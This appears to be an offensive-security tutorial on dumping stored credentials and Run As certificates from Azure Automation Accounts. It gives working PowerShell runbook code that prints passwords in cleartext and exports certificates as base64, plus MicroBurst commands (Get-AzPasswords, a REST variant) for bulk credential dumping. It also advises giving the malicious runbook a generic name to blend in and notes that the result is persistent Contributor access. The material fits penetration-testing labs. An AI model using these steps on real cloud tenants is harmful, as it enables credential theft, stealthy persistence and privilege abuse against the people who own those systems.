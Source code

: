# Automation Accounts Credentials Extraction

## Steps

### 1) First, we will need to create a new runbook in the account. Ideally, we would name this something generic, such as AzureAutomationTutorials, to blend in.

### 2) This runbook will cast the Cred-1 credential item to a variable, then output the username and password to the job output:

    $myCredential = Get-AutomationPSCredential -Name 'Cred-1'

    $userName = $myCredential.UserName

    $password = $myCredential.GetNetworkCredential().Password

    $userName

    $password

### 3) We will follow a similar process for exporting the attached Automation account Run as certificates:

    $RunAsCert = Get-AutomationCertificate -Name 'AzureRunAsCertificate'

    $CertificatePath = Join-Path $env:temp RunAsCertificate.pfx

    $Cert = $RunAsCert.Export('pfx','CertificatePassword')

    Set-Content -Value $Cert -Path $CertificatePath -Force -Encoding Byte | Write-Verbose

    $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('$CertificatePath))

    $base64string


### 4) Finally, we can review the job output to recover the credentials. The certificates can be converted back to pfx files from the Base64 strings, and the stored credentials should be available in cleartext.

# Create a "Run as" account in the test Automation account

## Steps:

### 1) Log in as the "azureadmin" account, or as an owner of the subscription

### 2) Navigate to Automation Accounts section

### 3) Either choose an existing Automation account or create a new one. If you're creating a new Automation account, a Run as account can be created along with the account.

### 4) Select Run as accounts from the menu blade

### 5) Choose Create Azure Run As Account in the menu

### 6) In the next window, select the Create button

### That is all that we need to do! Now we have a Run as service principal account to extract from our sample Automation account. By default, this account will have the Contributor role applied for the subscription that it is created in.

# Extracting Stored Passwords and Certificates from Automation Accounts

## Steps

#### 1) Authenticate with a contributor user/role account

    Connect-AzAccount 

#### 2) Dump credentials for Automation Accounts

    Get-AzPasswords -AppServices N -StorageAccounts N -Keys N -ACR N -CosmosDB N -Verbose | Out-GridView 

 - When prompted to select an Azure subscription, select your test Azure subscription and click OK

 - In the resulting output, you should see credentials that were dumped from the Automation account

#### 3) Open current path in File Explorer

    explorer . 

#### 4) Log in as RunAs account

    (Get-AzContext).Account (Confirm the current user context)

### We now have the cleartext credentials from the Automation account and a private certificate that we can use to authenticate as the Run as account. Since the Contributor role is configured for the Run as account by default, this means we will likely have a persistent Contributor account in the subscription.

## Alternate method for Automation Accounts credentials dumping:

#### 1) MicroBurst function. Does not require Contributor account access. REST API tokens are used instead

    Get-AzAutomationAccountCredsREST 



